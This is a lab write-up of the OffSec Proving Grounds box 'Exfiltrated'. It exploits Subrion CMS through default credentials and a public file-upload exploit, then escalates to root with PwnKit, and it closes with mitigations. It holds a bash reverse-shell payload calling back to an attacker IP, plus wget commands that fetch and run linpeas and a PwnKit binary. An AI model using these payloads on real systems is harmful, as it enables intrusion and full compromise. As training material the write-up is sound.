# Exfiltrated (OffSec Proving Grounds)

`OffSec Proving Grounds` `Web Application to Local Privilege Escalation`

> Exploiting a known Subrion CMS file upload flaw behind default admin credentials, then escalating to root with the PwnKit Polkit vulnerability.

[← Back to index](../README.md)

---

## Machine Overview

Exfiltrated is a Linux target running a single web application, an installation of Subrion CMS behind Apache on Ubuntu. Nothing about the way in here is exotic. A hidden admin panel is easy to find, the credentials guarding it are the ones everybody tries first, and the CMS version behind that login has a well documented file upload bug sitting on Exploit-DB. The escalation to root leans on the same principle, a known, patchable bug that nobody patched.

## Objective

Get a foothold on the web application, escalate to root, and capture local.txt and proof.txt.



*Nmap: SSH and Apache open, robots.txt already leaking a hidden /panel/ path.*

## Step One: Enumeration

The scan alone did most of the early work. Nmap's own robots.txt check came back with seven disallowed entries, including /panel/, /install/, and /backup/, none of which a normal visitor would ever find by browsing the site. The hostname in the HTTP response, exfiltrated.offsec, needed a manual entry in the local hosts file before the site would load properly by name.

**Command**

```
sudo nano /etc/hosts
```



*Hosts file updated, exfiltrated.offsec now resolves.*

With the hostname resolving, /panel/ turned out to be a login page for Subrion, a CMS neither hidden well enough nor patched recently enough.



*Panel found: Subrion CMS v4.2.1 admin login.*

## Step Two: Identifying the CMS and Getting In

A login page naming its own CMS and version is a gift. A quick search for known issues in Subrion 4.2.1 turned up several public exploits on Exploit-DB, arbitrary file upload chief among them.



*Public exploit confirmed to exist for this exact version.*



*Multiple known bugs, arbitrary file upload the one that mattered here.*

None of that mattered without a way in, and the login page did not put up much resistance. The default pairing, admin and admin, was still valid.



*Logged in with default credentials, admin / admin.*

## Step Three: Exploiting the Upload Flaw

With valid credentials in hand, the arbitrary file upload exploit, EDB 49876, could authenticate on its own and take it from there. It logs in, grabs a CSRF token, generates a randomly named PHP archive as a webshell, and uploads it straight through the CMS's own file handling.

**Command**

```
python 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
```



*Webshell uploaded automatically, command execution confirmed as www-data.*

## Step Four: Upgrading to an Interactive Shell

A webshell answers one command at a time, which gets old fast. A small bash script, pointed back at a listener, is a better place to work from.

**Payload, shell1.sh**

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.45.166/443 0>&1
```



*Reverse shell script, ready to upload.*

The same admin session used to run the exploit was still good for the CMS's own upload interface, so shell1.sh went up through the Uploads panel directly, right alongside the webshell the exploit had already dropped.



*shell1.sh uploaded through the CMS panel itself.*

The uploaded script needed execute permission before it would run, set through the existing webshell access.

**Command**

```
chmod 777 shell1.sh
```



*Permissions set, shell1.sh ready to execute.*

A netcat listener on port 443 caught the callback the moment the script ran, landing a proper interactive shell as www-data inside the CMS's own upload directory.



*Interactive shell landed, www-data on Exfiltrated.*

## Step Five: Privilege Escalation

From there the usual enumeration playbook applied. Linpeas, pulled over from a local web server, pointed at an old, unpatched Polkit install, the kind of thing CVE-2021-4034 was written for. That CVE has a name almost everyone in the field knows on sight, PwnKit, and a working binary for it is about as close to push button root as local privilege escalation gets.

**Commands**

```
cd /tmp
wget http://192.168.45.166/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
wget http://192.168.45.166/Tools/PwnKit
chmod +x ./PwnKit
./PwnKit
```

Running it dropped straight into a root shell.



*Root reached, local.txt captured.*

local.txt: c1250858



*proof.txt captured, Exfiltrated fully owned.*

proof.txt: c4df69e8

## Attack Chain Summary

Every step of this chain was already public knowledge before the attack started. Robots.txt handed over a path it was supposed to keep quiet. A default password nobody changed opened the door behind it. A four year old file upload bug with a public exploit script did the rest of the work getting a shell. And an unpatched Polkit binary turned that shell into root without needing a second thought. Nothing here required discovering anything new, only noticing what was already documented and never fixed.

## Mitigations and Prevention

> **The fix:** Default credentials should never survive past initial setup, since admin and admin on a live admin panel is functionally the same as no authentication at all, CWE-1391, Use of Weak Credentials. The CMS itself needed patching well before this test, since its authenticated arbitrary file upload issue, CWE-434, Unrestricted Upload of File with Dangerous Type, had a public advisory and a public exploit script years before this box was built. And the underlying operating system needed the Polkit patch for CVE-2021-4034 applied promptly, since PwnKit is precisely the kind of local privilege escalation bug that turns any foothold, however small, into full root.

> **Framework mapping:** Initial access through the vulnerable upload endpoint is T1190, Exploit Public-Facing Application, in MITRE ATT&CK. Logging in with unchanged default credentials is T1078.001, Valid Accounts, Default Credentials. The uploaded PHP webshell used for execution is T1505.003, Server Software Component, Web Shell. And the Polkit exploit for root is T1068, Exploitation for Privilege Escalation.
